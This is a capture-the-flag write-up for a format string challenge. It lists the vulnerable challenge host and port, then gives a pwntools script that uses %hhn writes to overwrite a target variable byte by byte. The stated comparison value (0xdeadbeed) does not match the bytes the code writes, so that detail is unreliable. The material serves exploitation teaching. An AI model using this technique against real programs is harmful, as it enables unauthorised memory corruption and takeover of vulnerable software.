 # Challenge `Write Big Numbers` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23196
- Impact:
  - Allows user to alter local variable

## Steps to reproduce

1. Using `gdb` we can verify that `target` is stored in memory address `0x804c044`
2. This value is compared to `0xdeadbeed`
3. Since only one byte can be written at once, we need to write each byte individually, adjust de offset accordingly

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23196, timeout=100)

target = 0x804c044

offset1 = (0xde - 16) % 256
offset2 = (0xad - 0xde) % 256
offset3 = (0xbe - 0xad) % 256
offset4 = (0xef - 0xbe) % 256

payload = p32(target + 3) + p32(target + 2) + p32(target + 1) + p32(target) + \
    "%{}x%7$hhn%{}x%8$hhn%{}x%9$hhn%{}x%10$hhn".format(offset1, offset2, offset3, offset4).encode()

s.sendline(payload)
print(s.recvall())

```